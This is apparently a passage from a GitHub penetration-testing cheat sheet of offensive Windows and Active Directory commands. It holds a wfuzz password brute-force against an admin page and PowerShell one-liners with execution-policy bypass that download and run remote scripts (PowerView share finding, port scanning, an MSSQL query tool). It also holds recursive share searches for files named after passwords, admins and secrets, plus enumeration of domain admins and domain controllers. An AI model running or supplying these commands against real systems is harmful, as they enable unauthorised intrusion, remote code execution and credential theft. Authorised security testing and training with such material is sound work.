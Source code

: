 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
  
   <b> Runas Powershell </b>
  
  ```Start-Process powershell.exe -Verb runas```
  ```Start-Process powershell.exe -Credential <user>```
  
  <b> View Shares With Permissions </b>
  
  <pre>powershell.exe -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');Invoke-ShareFinder -CheckShareAccess"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455620-34f292b4-ed83-11e7-92b0-3b8dd387146f.png)
  
  
  <b> View files that contain certain words recursively </b>
  
  <pre> ls -Path \\SVHOST1.LAZULI.CORP\tmp$ -Include "*pass*","*
admin*","*secret*" -Recurse </pre>

![image](https://user-images.githubusercontent.com/7115563/34455641-aa03adf4-ed83-11e7-8333-a69366714921.png)

<b> View files which name contains certain words recursively </b>

<pre>dir -Path \\SVHOST1.LAZULI.CORP -Include "*pass*","*admin*","*secret*" -Recurse</pre>

![image](https://user-images.githubusercontent.com/7115563/34455649-dcc941ea-ed83-11e7-9428-a702f254e807.png)

<b> Connect to MSSQL Database </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/michaellwest/PowerShell-Modules/master/CorpApps/Invoke-SqlCommand.ps1')

Invoke-SqlCommand -Server 172.11.14.89 -Database master -Username sa -Password <password> -Query "exec sp_databases" </pre>

<b> Port Scanning </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1')

Invoke-Portscan -Hosts [ip] -TopPorts 50</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455679-6e630230-ed84-11e7-995e-2eea1a6fc8dc.png)
  
  
  <b> View Domain Admins </b>
  
  <pre> net groups /domain "Domain Admins"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455690-9e648d78-ed84-11e7-9a84-9b335530a31e.png)
  
  <b> View Domain Controlers </b>
  
  <pre>nltest /dclist:<domain> </pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455698-d1504074-ed84-11e7-85ad-c4bb196c9d44.png)
```